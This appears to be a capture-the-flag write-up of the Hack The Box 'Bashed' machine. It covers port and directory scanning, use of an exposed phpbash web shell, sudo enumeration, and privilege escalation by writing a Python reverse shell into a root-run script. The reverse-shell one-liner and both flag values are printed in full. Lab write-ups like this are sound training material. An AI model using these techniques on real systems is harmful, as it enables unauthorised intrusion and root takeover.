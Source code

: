 # bashed

[link to the box](https://app.hackthebox.com/machines/Bashed)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)


# scanning

as with anything, we start by scanning the host's ip on all ports:

```bash
$ nmap -sV -Pn -p- 10.10.10.68
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

looks like a website, lets try visiting it.

![website](img/website.png)

ignoring the content about phpbash, there is a search field on the left hamburger menu. unfortunately, this is purely an aesthetic search bar and has no function.

taking a look at phpbash homepage, it claims that phpbash was developed on the same server the webpage is hosted, hinting that somewhere on the server the phpbash file exists. in one of the screenshots, phpbash is located at `uploads/phpbash.php`, but requesting that does not work. lets use `dirbuster` to try and find directories to explore.

```bash
$ dirb http://10.10.10.68:80/
# (unimportant directories omitted for clarity)
...
==> DIRECTORY: http://10.10.10.68:80/dev/
...
```

lets check out http://10.10.10.68/dev/ as it has the most conspicuous name

![dev directory](img/dev-dir.png)

and the phpbash shell exists here!

notice how the dates modified are december 2017. looking at the [github page](https://github.com/Arrexel/phpbash/commits/master), you can see many vulnerabilities patched __after__ the date this file was modified, meaning that this is likely vulnerable to all of those things.

..but lets not get too ahead of ourselves, lets find our user flag first.

# exploiting

open one of the `.php` files to open a shell. we can now execute some commands on the remote

```bash
$ cd /home/arrexel
$ cat user.txt
ef4f90de22deea594984a66aa5e2934b
```

theres our first flag.

time to escalate!

# pwning

lets analyse the oldest version of the file on the server, last modified on `2017-11-30`. this file is likely to be the same as [this one on the github](https://github.com/Arrexel/phpbash/blob/456da922df6ec1977cb734f7b6151ade96f607e4/phpbash.php)

(we can also just `cat phpbash.php`)

analysis of this file shows that we send a post request, which is unsanitised by the server and just executed. anything goes it seems!

first, lets do some basic manual enumeration.

```bash
$ whoami
www-data
$ sudo -l
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

looks like we are able to exectue commands as users `scriptmanager` and `www-data`

continuing to dig around in the files, an interesting folder called `scripts` located in the root partition

```bash
$ ls /scripts/
Permission denied
```

lets try using our `scriptmanager` user:

```bash
$ sudo -u scriptmanager -- cat /scripts/*
f = open("test.txt", "w")
f.write("testing 123!")
f.close
testing 123!
```

looks like a cool python script! lets see if we can run it.

```bash
$ sudo -u scriptmanager -- python3 /scripts/
```

![unwritable directory](img/unwritable.png)

the script is unable to write to the file `test.txt`, but `scriptmanager` has access to write to the `test.py` file itself. looking at `ls -l`

![test.txt gets updated periodically](img/scripts-update.png)

some user with write permissions is periodically running `test.py`. we can write to `test.py` to make it create a reverse shell to our computer, and escalate up to said account.

we can also see that since the text file is owned by root, the account running the `test.py` file is root itself.

first, start an `nc` listener to recieve the reverse shell.

then write reverse shell code to `test.py` and wait for the connection!

```bash
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your local ip>",<any sane port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' | sudo -u scriptmanager -- tee /scripts/test.py
```

after a few seconds, you should get a shell on your netcat listener!

![root shell](img/shell.png)

this is root.

the root flag is located in `/root/root.txt`

```bash
$ cat /root/root.txt
65fe81d316b6bb7356264032e390877c
```

congrats! youre winner.
